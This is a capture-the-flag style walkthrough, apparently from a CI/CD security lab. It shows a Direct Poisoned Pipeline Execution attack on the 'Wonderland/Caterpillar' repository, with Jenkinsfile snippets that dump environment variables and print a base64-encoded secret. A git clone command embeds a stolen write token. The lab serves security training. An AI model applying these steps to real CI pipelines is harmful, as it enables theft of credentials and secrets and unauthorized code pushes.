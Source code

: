 Create a pull request originated from a fork and execute a [Direct-PPE](https://www.cidersecurity.io/blog/research/ppe-poisoned-pipeline-execution/) attack against the _Wonderland/Caterpillar_ repository to elevate your privileges and steal the _flag2_ secret.

1. Fork the _Wonderland/Caterpillar_ repository.
2. Modify the Jenkinsfile in the fork to print the environment variables into the console output, or send it to a server you control.

```groovy
stages {
    stage ('Install_Requirements') {
        steps {
            sh '''
                env
            '''
        }
    }
```

3. Create a pull request based on the fork into the main branch of the original repository. The _wonderland-caterpillar-test_ Jenkins pipeline, originally intended to run tests against the repository code, will be executed.
4. Access the console output of the executed job to get the _gitea_token_. This token has Write permission on the repository, which effectively allows you to elevate your privileges against the repo.
5. Clone the repository using the token.

    ```shell
    git clone http://a644940c92efe2d1876e16a5d29e6c6d7e199b68@localhost:3000/Wonderland/caterpillar.git
    ```

6. Modify the Jenkinsfile to load the _flag2_ secret as an environment variable and print it to the console output (or to send it to a remote host).

```groovy
stages {
    stage('deploy') {
        steps {
            withCredentials([string(credentialsId: 'flag2', variable: 'flag2')]) {
                sh 'echo $flag2 | base64'
            }
        }
    }
}
```

7. Push the modified Jenkinsfile to the main branch in the repository. The _wonderland-caterpillar-prod_ pipeline will be triggered automatically.
8. Access the console output of the executed job to get the secret.